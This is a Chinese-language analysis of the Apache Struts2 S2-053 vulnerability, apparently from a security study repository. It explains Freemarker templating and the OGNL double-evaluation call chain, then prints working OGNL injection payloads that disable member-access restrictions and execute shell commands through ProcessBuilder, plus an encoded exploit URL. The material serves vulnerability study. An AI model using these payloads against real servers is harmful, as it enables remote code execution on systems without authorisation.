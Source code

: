 ### S2-053

![s2-053-result](../imgs/s2-053-result.png)  

Struts2 在使用 Freemarker 模板引擎的时候，同时允许解析 OGNL 表达式。导致用户输入的数据本身不会被 OGNL 解析，但由于被 Freemarker 解析一次后变成离开一个表达式，被 OGNL 解析第二次，导致任意命令执行漏洞。  
http://localhost:9053/hello.action

* Freemarker 工作原理  
  
  ![](https://img-blog.csdn.net/20180809213845347?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMzODE5NzY0/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)  

  原理简述
  - 准备模板文件(后缀为.fld)
  - 将数据填充进模板
  - 输出最终页面文件
  
  具体过程
  - 创建一个 Configuration 对象
  - 设置模板文件所在路径
  - 设置模板文件所使用的字符集
  - 根据路径加载模板文件，创建模板对象
  - 创建数据集对象，并向对象填充数据
  - 创建输出流对象 Writer（此步骤是设置输出的文件所在的路径及其名字）
  - 调用模板对象的process方法输出（生成）HTML文件或其他文件
  - 关闭流对象


* 漏洞分析  
  
  参考 [s2-053 源码分析](https://zhuanlan.zhihu.com/p/146166297)  

  (👇) 该方法首先获取模版的绝对路径，再通过 configuration.getTemplate 获取模版的信息，然后调用 template.process(model, writer) 开始解析模版  

  ![s2-053-01](https://pic3.zhimg.com/80/v2-4203979ae2ce8ba10d2fed50eb15bb1e_720w.webp)  

  (👇) 经过一系列的函数调用后（有些复杂），在一个 visit 方法中，调用传进去的 `element.accept` 方法遍历 nestedElements 中元素进行解析，nestedElements 的内容如下:  
  
  ![s2-053-02](https://pic3.zhimg.com/80/v2-4e024b73be574034956442d4363bfff2_720w.webp)  

  ![s2-053-03](https://pic3.zhimg.com/80/v2-58ee5b629f4a2e4b83a31aad495ed4e6_720w.webp)  

  ![s2-053-04](https://pic3.zhimg.com/80/v2-e264a755c26becb110fa63a4050f10c2_720w.webp)  

  (☝) 其中的 `${redirectUri}` 应该就是传入的参数，这里应该就是注入漏洞点  
  
  (👇) 看如何解析 `<@s.url value="${redirectUri}"></@s.url>`。调用 `UnifiedCall.accept` 方法  
  
  (👇) 该方法首先从 valueStack 获取到 redirect_url 的值,放入 args,然后开始解析这个值。  

  ![s2-053-05](https://pic2.zhimg.com/80/v2-d28ef4c8e6b61a06e641182158c80401_720w.webp)  

  (👇) 再经过一系列的复杂的调用，调用到了 `findValue` 方法。红框上面的判断语句首先判断是否支持 `altSyntax`。Syntax 功能是 Struts 2 框架用于处理标签内容的一种新语法（不同于普通的 HTML ），主要作用在于支持对标签中的 OGNL 表达式进行解析并执行。接着调用 TextParseUtil.translateVariables 方法。expr 就是我们的 payload。（这里是%{1+1}）  

  ![s2-053-06](https://pic2.zhimg.com/80/v2-b0402f7b1b2195b53268b4021087a3cd_720w.webp)  

  ![s2-053-07](https://pic1.zhimg.com/80/v2-ff20fa903468fe25a918ee1cd0903bd4_720w.webp)  

  ![s2-053-08](https://pic4.zhimg.com/80/v2-b6877d56a0fac03d3a12fed301f7fbe3_720w.webp)

  (☝) 再经过一系列的调用，会一直执行到 `parser.evaluate()` 方法。`parser.evaluate()` 的主要作用就是，对 payload 进行切割,保留 `%{}` 里面的值,然后再调用其他方法进行最终解析。  

  (👇) 最终，调用到了 `getValue()` 方法，执行了 ognl 表达式  
  
  ![s2-053-09](https://pic3.zhimg.com/80/v2-21e16827b3cb09171bb783a4d8e2e5f2_720w.webp)  

  ![s2-053-10](https://pic4.zhimg.com/80/v2-7327e05c44968708fdaabe18aa9ce8bb_720w.webp)



* payload

  ```
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

  ```

  ```java
  %{(dm = ognl.OgnlContext.DEFAULT_MEMBER_ACCESS).(_memberAccess ? (_memberAccess = dm) : ((container = context['com.opensymphony.xwork2.ActionContext.container']).(ognlUtil = container.getInstance(com.opensymphony.xwork2.ognl.OgnlUtilclass)).(ognlUtil.getExcludedPackageNames().clear()).(ognlUtil.getExcludedClasses().clear()).(context.setMemberAccess(dm)))).(cmd = 'id').(iswin=(java.lang.System.getProperty('os.name').toLowerCase().contains('win'))).(cmds =(iswin ? {'cmd.exe','/c',cmd} : {'/bin/bash','-c', cmd})).(p = new java.lang.ProcessBuilder(cmds)).(p.redirectErrorStream(true)).(process = p.start()).(org.apache.commons.io.IOUtils.toString(process.getInputStream()))}
  ```

  解码前：
  ```
  http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%25%7b(%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23a%3d(new+java.lang.ProcessBuilder(%27%2fApplications%2fNotes.app%2fContents%2fMacOS%2fNotes%27)).start())%7d
  ```

  解码后：
  ```
  http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new+java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
  ```